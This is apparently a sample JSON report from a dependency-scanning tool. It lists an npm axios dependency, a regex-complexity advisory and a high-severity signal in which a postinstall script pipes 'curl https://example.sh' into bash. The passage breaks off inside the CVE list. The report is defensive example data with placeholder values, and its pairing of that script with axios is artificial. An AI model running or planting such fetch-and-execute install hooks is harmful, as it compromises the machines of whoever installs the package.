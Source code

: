 ```json
{
  "repo": {
    "path": "/path/to/repo",
    "commit_hash": "abc123",
    "scan_date": "2023-01-01T00:00:00Z"
  },
  "scan_summary": {
    "total_manifests": 4,
    "ecosystems_detected": ["npm", "python", "docker"],
    "total_dependencies": 15,
    "total_signals": 3,
    "total_vulnerabilities": 2,
    "total_cves": 1
  },
  "dependencies": [
    {
      "ecosystem": "npm",
      "manifest_path": "services/api/package.json",
      "dependency": {
        "name": "axios",
        "version": "^1.3.2",
        "source": "registry",
        "resolved": "https://registry.npmjs.org/axios/-/axios-1.3.2.tgz"
      },
      "metadata": {
        "dev_dependency": false,
        "line_number": 5,
        "script_section": true
      },
      "signals": [
        {
          "type": "postinstall_script",
          "file": "package.json",
          "line": 45,
          "detail": "postinstall runs 'curl https://example.sh | bash'",
          "severity": "high"
        }
      ],
      "risk_score": 0.85
    }
  ],
  "vulnerabilities": [
    {
      "dependency": {
        "ecosystem": "npm",
        "dependency": {"name": "axios", "version": "^1.3.2"}
      },
      "vulnerability": {
        "id": "GHSA-4w2v-q235-vp99",
        "summary": "Axios Inefficient Regular Expression Complexity vulnerability",
        "details": "The axios JavaScript library has a vulnerability due to inefficient regular expression complexity...",
        "severity": "HIGH",
        "references": ["https://github.com/axios/axios/security/advisories/GHSA-4w2v-q235-vp99"]
      }
    }
  ],
  "cves": [
    {
      "dependency": {
        "ecosystem": "npm",
        "dependency": {"name": "axios", "version": "^1.3.2"}
      },
```